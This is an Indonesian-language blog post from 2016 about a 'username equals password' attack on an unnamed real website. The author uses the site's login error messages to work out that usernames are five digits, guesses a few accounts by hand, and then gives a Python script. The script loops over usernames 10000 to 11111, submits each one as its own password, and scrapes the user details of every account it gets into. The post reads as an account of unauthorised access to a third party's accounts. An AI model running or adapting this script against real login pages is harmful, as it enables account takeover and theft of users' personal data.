 ```yaml
---
layout: post
title:  "User==Pass attack"
date:   2016-12-06 18:47:00 +0700
categories: same user pass attack blogs blog
comments: false
---
```


Dictionary attack,  bruteforce attack, soceng serangan serangan yang sudah pada umum kalau hacker udah ga mampu lagi nyerang target dengan cara cara yang halus. Serangan ini seperti memaksa membuka pintu dengan 1000 kunci yang dicoba satu satu. ga efektif dan serangan ini biasanya tidak diperbolehkan untuk digunakan pada CTF ataupun Bug Bounty karena jenis lubang keamanan ini bagi para security engginer sangat tidak rasional dikarenakan serangan ini cukup membutuhkan "*insting*" yang beketergantungan dengan "*luck*"

> "I absolutely hates die" 

yap plural dari dadu dan juga kata kerja dari mati, membutuhkan keberuntungan untuk melakukan hal statis semacam brute force, dimana  penebakan pattern pattern digunakan.

artikel kali ini akan saya jelaskan bagaimana lemahnya internet dimana beberapa orang lebih senang menggunakan password yang sama dengan username. Contoh real kasus yang akan saya jelaskan kali ini dimana ada website yang menggunakan alert pada saat username ataupun password tidak cocok. 

> ![Fail attempt login](http://k1m0ch1.github.io/images/fail-attempt-1.png)

Yap, dengan cara menebak nebak memaksa dengan false attempt pada awalnya akan muncul informasi sederhana, next step adalah mencari tahu user ini mengandung huruf/ kata atau campur.

Ternyata setelah di tes jika kita menginputkan random 5 huruf akan tetap muncul error seperti di atas dan tetap bilang kalau user harus 5 digit.

ok cukup.. berarti 5 angka.

pada contoh kali ini saya tidak akan menggunakan tools bruteforce karena serangan ini cukup sederhana dikarenakan memanfaatkan password yang sama dengan username. next saya mencoba serangan dengan username *10001* sampai *10010* dengan password yang sama dengan username.. LETS START!!

> ![Kimochi ikeh](http://k1m0ch1.github.io/images/fail-attempt-2.png)

fast forward dan ternyata pada user *10005* berhasil dilakukan berikut juga dengan user *10007*

> ![haha](http://k1m0ch1.github.io/images/success-attempt-1.png)

next nya saya bikin script python sederhana buat post login dan get cookies di percantik dengan beautifulsoup4 saya looping dari user *10000* sampai dengan user *11111*

codenya seperti ini :

```python
from requests import session
from bs4 import BeautifulSoup

base = 10000
endbase = 11111
target = "http://site target/"
proc = "index.php?action=llogin"
a=0

for x in range(base, endbase):

	exp = str(x)

	payload = {
		'login' : 'login',
	    'username': exp,
	    'password': exp
	}

	with session() as c:
	    c.post('%s%s' % (target, proc), data=payload)
	    response = c.get('%s', target)
	    soup = BeautifulSoup(response.text, 'html.parser')
	    #print(response.headers)
	    #print(response.text)
	    parsingnyah = soup.select(".top-menu")
	    if len(parsingnyah) > 0 :
	    	parsingnyah = soup.select(".top-menu > table > tr > td > br")[0].encode('utf-8')[22:-140]
	    	print "[+] Success Login user %s = %s" % (exp,parsingnyah)
```
> ![haha](http://k1m0ch1.github.io/images/lul-script-1.png)